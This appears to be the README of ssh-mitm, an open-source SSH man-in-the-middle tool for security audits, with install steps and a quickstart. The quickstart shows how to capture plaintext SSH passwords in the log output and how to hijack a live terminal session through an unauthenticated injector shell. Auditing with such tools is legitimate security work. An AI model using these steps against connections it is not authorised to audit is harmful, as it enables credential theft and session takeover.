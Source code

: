 # ssh-mitm - intercept ssh traffic

[![CodeFactor](https://www.codefactor.io/repository/github/ssh-mitm/ssh-mitm/badge)](https://www.codefactor.io/repository/github/ssh-mitm/ssh-mitm)
[![Github version](https://img.shields.io/github/v/release/ssh-mitm/ssh-mitm?label=github&logo=github)](https://github.com/ssh-mitm/ssh-mitm/releases)
[![PyPI version](https://img.shields.io/pypi/v/ssh-mitm.svg?logo=pypi&logoColor=FFE873)](https://pypi.org/project/ssh-mitm/)
[![Supported Python versions](https://img.shields.io/pypi/pyversions/ssh-mitm.svg?logo=python&logoColor=FFE873)](https://pypi.org/project/ssh-mitm/)
[![PyPI downloads](https://pepy.tech/badge/ssh-mitm/month)](https://pepy.tech/project/ssh-mitm)
[![GitHub](https://img.shields.io/github/license/ssh-mitm/ssh-mitm.svg)](https://github.com/ssh-mitm/ssh-mitm/blob/master/LICENSE)

**man in the middle (mitm) server for security audits supporting public key authentication, session hijacking and file manipulation**

![SSH-MITM example](https://ssh-mitm.at/img/mitm-example.png)

## Installation of SSH-MITM


This part of the documentation covers the installation of SSH-MITM.
The first step to using any software package is getting it properly installed.

### $ python -m pip install ssh-mitm


To install SSH-MITM, simply run this simple command in your terminal of choice:

    $ python -m pip install ssh-mitm


### Get the Source Code


SSH-MITM is actively developed on GitHub, where the code is always available.

You can either clone the public repository:

    $ git clone git://github.com/ssh-mitm/ssh-mitm.git

Or, download the tarball:

    $ curl -L https://github.com/ssh-mitm/ssh-mitm/archive/master.tar.gz | tar xz


Once you have a copy of the source, you can embed it in your own Python package, or install it into your site-packages easily:

    $ cd ssh-mitm-master
    $ python -m pip install .

## Quickstart


Eager to get started? This page gives a good introduction in how to get started with SSH-MITM.

First, make sure that:

* SSH-MITM is :ref:`installed <Installation of SSH-MITM>`
* SSH-MITM is up-to-date

Let’s get started with some simple examples.


### Start the ssh-mitm proxy server


Starting an intercepting mitm-ssh server with password authentication is very simple.

All you have to do is run this command in your terminal of choice.

    $ ssh-mitm --remote-host 192.168.0.x

Now let's try to connect to the ssh-mitm server.
The ssh-mitm server is listening on port 10022.

    $ ssh -p 10022 user@proxyserver

You will see the credentials in the log output.

    2021-01-01 11:38:26,098 [INFO]  Client connection established with parameters:
        Remote Address: 192.168.0.x
        Port: 22
        Username: user
        Password: supersecret
        Key: None
        Agent: None


### Hijack a SSH terminal session


Getting the plain text credentials is only half the fun.
SSH-MITM proxy server is able to hijack a ssh session and allows you to interact with it.

Let's get startet with hijacking the session.

    $ ssh-mitm --remote-host 192.168.0.x --ssh-interface ssh_proxy_server.plugins.ssh.mirrorshell.SSHMirrorForwarder

Connect your ssh client with the ssh-mitm proxy.

    $ ssh -p 10022 user@proxyserver

When a client connects, the ssh-mitm proxy server starts a new server, where you can connect with another ssh client.
This server is used to hijack the session.

    2021-01-01 11:42:43,699 [INFO]  created injector shell on port 34463. connect with: ssh -p 34463 127.0.0.1

To hijack the session, you can use your favorite ssh client. This connection does not require authentication.

    $ ssh -p 34463 127.0.0.1

After you are connected, your session will only be updated with new responses, but you are able to execute commands.

Try to execute somme commands in the hijacked session or in the original session.

The output will be shown in both sessions.


## Authors

- Manfred Kaiser
- Simon Böhm
